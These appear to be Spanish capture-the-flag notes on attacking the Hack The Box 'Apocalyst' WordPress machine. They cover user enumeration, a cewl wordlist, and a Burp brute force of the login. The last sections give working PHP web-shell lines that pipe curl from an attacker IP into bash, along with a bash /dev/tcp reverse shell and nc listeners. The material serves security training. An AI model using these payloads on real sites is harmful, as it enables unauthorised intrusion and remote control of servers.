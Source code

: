 * Panel de login --> /wp-login.php
* Enumeración de usuarios --> /wp-json/wp/v2/users/
* Probar usuarios válidos --> en el panel de login devuelve que la contraseña para ese usuario no es válida.
* Crear diccionario con cewl basándose en las palabras del servicio web **
 `cewl -w diccionario.txt http://apocalyst.htb`
 * Información útil --> /wp-config.php
 
** Fuerza bruta sobre el panel de login **
 >Vía Burpsuite con un ataque Sniper
 > Se captura una petición de autenticación sobre un usuario que sabemos que es válido. Sobre el campo contraseña creamos una ataque tipo Sniper que irá probando diferentes contraseñas de un listado.

 >Con Bash
	

 >Con Python


** Reverse shell gracias al fichero 404.php **
> Modificación del fichero 404.php en --> Appearance - Editor - 404 template
> Añadimos una nueva línea al fichero --> `<?php system("curl 10.10.14.19 | bash"); ?>`
> Creamos fichero index.html en equipo local para dar respuesta a la petición con curl:  `#!/bin/bash
bash -i >& /dev/tcp/10.10.14.19/443 0>&1`
> Servidor web en escucha para dar respuesta a curl --> `python -m SimpleHTTPServer 80`
> Puerto en escucha --> `nc -nlvp 443`
> Apuntamos a la página 404.php --> http://apocalyst.htb/?p=404.php

** Reverse shell directa en el fichero 404.php **
> Modificamos el fichero 404.php incluyendo una nueva línea para ejecutar una reverse shell
> `<?php system("bash -c ' bash -i >& /dev/tcp/10.10.14.7/443 0>&1'"); ?>`
> Puerto en escucha --> `nc -nlvp 443`
> Apuntamos a la página 404.php --> http://apocalyst.htb/?p=404.php


